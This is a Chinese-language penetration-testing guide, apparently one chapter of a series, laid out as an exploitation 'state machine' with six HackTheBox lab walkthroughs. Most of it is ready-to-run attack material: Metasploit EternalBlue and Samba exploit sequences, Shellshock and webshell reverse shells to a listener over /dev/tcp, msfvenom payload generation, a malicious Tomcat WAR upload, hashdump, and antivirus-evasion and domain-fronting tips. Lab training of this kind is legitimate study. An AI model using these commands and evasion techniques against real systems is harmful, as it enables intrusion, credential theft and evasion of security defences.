

# 漏洞利用状态机

## 概述
漏洞利用是将已知漏洞转化为实际访问权限的过程。本状态机涵盖从漏洞搜索、验证、利用到[后渗透](11-post-exploitation-persistence.md)的完整流程。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 发现服务 | 有版本号 | 搜索漏洞 | 漏洞列表 | nmap, banner grab |
| 发现服务 | 无版本号 | 指纹识别 | 确定版本 | whatweb, wappalyzer |
| 漏洞搜索 | 本地搜索 | searchsploit | 找到 exploit | searchsploit |
| 漏洞搜索 | 在线搜索 | CVE 查询 | 找到 exploit | cve.mitre.org |
| 漏洞搜索 | Metasploit | msf search | 找到模块 | msfconsole |
| exploit 类型 | MSF 模块 | 配置选项 | 执行利用 | msfconsole |
| exploit 类型 | 脚本文件 | 修改参数 | 执行利用 | python, ruby |
| exploit 类型 | 源码 | 编译 | 执行利用 | gcc, clang |
| 执行利用 | 成功 | 获得 shell | [后渗透](11-post-exploitation-persistence.md) | - |
| 执行利用 | 失败 | 分析原因 | 调整策略 | - |

## 决策树

### 1. 漏洞搜索策略
```
IF 已知服务和版本
  THEN 搜索已知漏洞
    # 本地搜索
    searchsploit <service> <version>

    # Metasploit 搜索
    msfconsole
    > search <service> <version>

    # 在线搜索
    # CVE: https://cve.mitre.org
    # Exploit-DB: https://www.exploit-db.com
    # Packet Storm: https://packetstormsecurity.com

ELSE IF 只知道服务名
  THEN 先识别版本
    # Banner grabbing
    nc -v target 80

    # Nmap 版本扫描
    nmap -sV -p 80 target

    # Web 指纹识别
    whatweb target
    wappalyzer target
```

### 2. Exploit 类型处理
```
IF exploit 是 Metasploit 模块
  THEN 使用 msfconsole
    msfconsole
    > use exploit/windows/smb/ms17_010_eternalblue
    > set RHOSTS target
    > set LHOST attacker_ip
    > set payload windows/x64/meterpreter/reverse_tcp
    > exploit

ELSE IF exploit 是 Python 脚本
  THEN 修改脚本参数
    # 查看脚本用法
    python exploit.py -h

    # 修改目标 IP
    sed -i 's/target_ip/10.10.10.40/g' exploit.py

    # 执行
    python exploit.py

ELSE IF exploit 是 C/C++ 源码
  THEN 编译后执行
    # 编译
    gcc exploit.c -o exploit

    # 或使用 clang
    clang exploit.c -o exploit

    # 执行
    ./exploit target_ip

ELSE IF 无现成 exploit
  THEN 手动构造 PoC
    # 分析漏洞原理
    # 构造恶意输入
    # 测试验证
```

### 3. Payload 选择
```
IF 目标是 Windows
  THEN 选择 Windows payload
    # Meterpreter (功能最全)
    windows/x64/meterpreter/reverse_tcp

    # Shell (轻量)
    windows/x64/shell_reverse_tcp

    # 无阶段 (单个文件)
    windows/x64/shell/reverse_tcp

ELSE IF 目标是 Linux
  THEN 选择 Linux payload
    # Meterpreter
    linux/x64/meterpreter/reverse_tcp

    # Shell
    linux/x64/shell_reverse_tcp

ELSE IF 目标是 Web 应用
  THEN 选择 Web shell
    # PHP
    php/meterpreter/reverse_tcp

    # JSP
    java/jsp_shell_reverse_tcp
```

### 4. 利用失败处理
```
IF exploit 执行失败
  THEN 分析失败原因
    # 检查参数
    IF 参数错误
      THEN 调整参数重试

    # 检查环境
    ELSE IF 环境不匹配
      THEN 更换 exploit 或 payload

    # 检查防护
    ELSE IF 被防护拦截
      THEN 尝试绕过
        # 编码 payload
        msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10

        # 使用不同端口
        set LPORT 443  # 使用常见端口

        # 使用 HTTPS
        set payload windows/meterpreter/reverse_https
```

## 实战场景

### 场景 1: EternalBlue (MS17-010) 利用
**HTB 靶机**: Blue

**攻击链路**:
1. 扫描发现 SMB 服务
   ```bash
   nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
   ```
   输出: `Host is vulnerable to MS17-010`

2. 搜索 exploit
   ```bash
   searchsploit ms17-010
   ```
   找到: `Microsoft Windows - 'EternalBlue' SMB Remote Code Execution (MS17-010)`

3. 使用 Metasploit
   ```bash
   msfconsole
   > use exploit/windows/smb/ms17_010_eternalblue
   > set RHOSTS 10.10.10.40
   > set LHOST 10.10.14.5
   > set payload windows/x64/meterpreter/reverse_tcp
   > exploit
   ```

4. 获得 Meterpreter shell
   ```bash
   meterpreter > getuid
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > hashdump
   ```

### 场景 2: Apache Struts2 RCE (CVE-2017-5638)
**HTB 靶机**: Stratosphere

**攻击链路**:
1. 识别 Struts2 应用
   ```bash
   whatweb http://10.10.10.64
   ```
   发现: `Apache Struts 2.3.x`

2. 搜索漏洞
   ```bash
   searchsploit struts2 rce
   ```
   找到: `Apache Struts 2 - REST Plugin XStream RCE`

3. 下载 exploit
   ```bash
   searchsploit -m 42324
   ```

4. 修改脚本
   ```python
   # 编辑 42324.py
   target = "http://10.10.10.64/struts2-rest-showcase/orders/3"
   cmd = "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"
   ```

5. 启动监听器
   ```bash
   nc -lvnp 4444
   ```

6. 执行 exploit
   ```bash
   python 42324.py
   ```

### 场景 3: Shellshock (CVE-2014-6271)
**HTB 靶机**: Shocker

**攻击链路**:
1. 发现 CGI 脚本
   ```bash
   dirb http://10.10.10.56 /usr/share/wordlists/dirb/common.txt
   ```
   发现: `/cgi-bin/user.sh`

2. 测试 Shellshock
   ```bash
   curl -A "() { :; }; echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
   ```
   输出: `uid=1000(shelly) gid=1000(shelly)`

3. 使用 Metasploit
   ```bash
   msfconsole
   > use exploit/multi/http/apache_mod_cgi_bash_env_exec
   > set RHOSTS 10.10.10.56
   > set TARGETURI /cgi-bin/user.sh
   > set LHOST 10.10.14.5
   > exploit
   ```

4. 或手动反向 shell
   ```bash
   curl -A "() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1" http://10.10.10.56/cgi-bin/user.sh
   ```

### 场景 4: Tomcat Manager 弱密码 + WAR 部署
**HTB 靶机**: Jerry

**攻击链路**:
1. 发现 Tomcat Manager
   ```bash
   dirb http://10.10.10.95 /usr/share/wordlists/dirb/common.txt
   ```
   发现: `/manager/html`

2. [暴力破解](09-brute-force-attack.md)凭证
   ```bash
   hydra -C /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt 10.10.10.95 http-get /manager/html
   ```
   找到: `tomcat:s3cret`

3. 生成恶意 WAR
   ```bash
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war -o shell.war
   ```

4. 上传 WAR
   ```bash
   curl -u tomcat:s3cret --upload-file shell.war "http://10.10.10.95/manager/text/deploy?path=/shell"
   ```

5. 启动监听器并触发
   ```bash
   nc -lvnp 4444
   curl http://10.10.10.95/shell/
   ```

### 场景 5: SQL 注入到 RCE
**HTB 靶机**: Chatterbox

**攻击链路**:
1. 发现 SQL 注入
   ```bash
   sqlmap -u "http://10.10.10.74/index.php?id=1" --batch --dbs
   ```

2. 检查权限
   ```bash
   sqlmap -u "http://10.10.10.74/index.php?id=1" --privileges
   ```
   发现: `FILE` 权限

3. 写入 Webshell
   ```bash
   sqlmap -u "http://10.10.10.74/index.php?id=1" --file-write=/tmp/shell.php --file-dest=/var/www/html/shell.php
   ```

4. 访问 Webshell
   ```bash
   curl "http://10.10.10.74/shell.php?cmd=id"
   ```

5. 反向 shell
   ```bash
   curl "http://10.10.10.74/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.5/4444+0>%261'"
   ```

### 场景 6: 编译并使用 C exploit
**HTB 靶机**: Lame

**攻击链路**:
1. 搜索 Samba 漏洞
   ```bash
   searchsploit samba 3.0.20
   ```
   找到: `Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution`

2. 下载 exploit
   ```bash
   searchsploit -m 16320
   ```

3. 查看源码
   ```bash
   cat 16320.c
   ```

4. 编译
   ```bash
   gcc 16320.c -o samba_exploit
   ```

5. 执行
   ```bash
   ./samba_exploit 10.10.10.3
   ```

6. 或使用 Metasploit
   ```bash
   msfconsole
   > use exploit/multi/samba/usermap_script
   > set RHOSTS 10.10.10.3
   > set LHOST 10.10.14.5
   > exploit
   ```

## 工具对比

| 工具 | 类型 | 优势 | 劣势 | 使用场景 |
|------|------|------|------|---------|
| **Metasploit** | 综合框架 | 功能全面，自动化 | 容易被检测 | 快速利用已知漏洞 |
| **searchsploit** | 搜索工具 | 本地搜索快速 | 需要手动执行 | 查找 exploit 代码 |
| **msfvenom** | Payload 生成 | 支持多种格式 | 被 AV 重点监控 | 生成自定义 payload |
| **sqlmap** | SQL 注入 | 自动化程度高 | 速度较慢 | SQL 注入利用 |
| **Burp Suite** | Web [代理](14-tunneling-pivoting.md) | 手动控制精细 | 需要手动操作 | Web 漏洞利用 |
| **Exploit-DB** | 漏洞数据库 | 漏洞全面 | 需要在线访问 | 查找最新漏洞 |

## 关键技巧

### 1. Payload 编码绕过 AV
```bash
# 使用 shikata_ga_nai 编码器
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe

# 多重编码
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -e x86/shikata_ga_nai -i 5 -e x86/countdown -i 5 -f exe -o payload.exe
```

### 2. 自定义 Exploit 模板
```python
#!/usr/bin/env python3
import socket
import sys

def exploit(target, port):
    # 构造恶意 payload
    payload = b"A" * 1024  # Buffer overflow
    payload += b"\x90" * 16  # NOP sled
    payload += b"\x31\xc0..."  # Shellcode

    # 发送 payload
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))
    s.send(payload)
    s.close()

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} <target> <port>")
        sys.exit(1)

    exploit(sys.argv[1], int(sys.argv[2]))
```

### 3. Metasploit 高级用法
```bash
# 使用 resource 脚本自动化
cat > exploit.rc << EOF
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.5
set payload windows/x64/meterpreter/reverse_tcp
exploit -j
EOF

msfconsole -r exploit.rc

# 后台运行多个 exploit
msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST 10.10.14.5
> set LPORT 4444
> exploit -j  # 后台运行
> jobs  # 查看后台任务
```

### 4. 绕过防护
```bash
# 使用 HTTPS payload
set payload windows/meterpreter/reverse_https
set LPORT 443

# 使用域前置
set HttpHostHeader www.google.com

# 使用自定义证书
set HandlerSSLCert /path/to/cert.pem
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用编码和混淆绕过 AV
- 使用合法端口（80/443）
- 分阶段 payload 减少特征
- 使用内存注入避免磁盘写入
- 延迟执行避免沙箱检测

**防御者检测指标**:
- 异常的网络连接
- 可疑的进程行为
- 内存中的 shellcode
- 异常的系统调用
- 已知 exploit 特征

## 相关状态机
- [01-network-service-enumeration.md](01-network-service-enumeration.md) - 服务发现和版本识别
- [03-web-application-attack.md](03-web-application-attack.md) - Web 漏洞利用
- [05-privilege-escalation.md](05-privilege-escalation.md) - 利用后提权
- [11-post-exploitation-persistence.md](11-post-exploitation-persistence.md) - 利用后[持久化](11-post-exploitation-persistence.md)
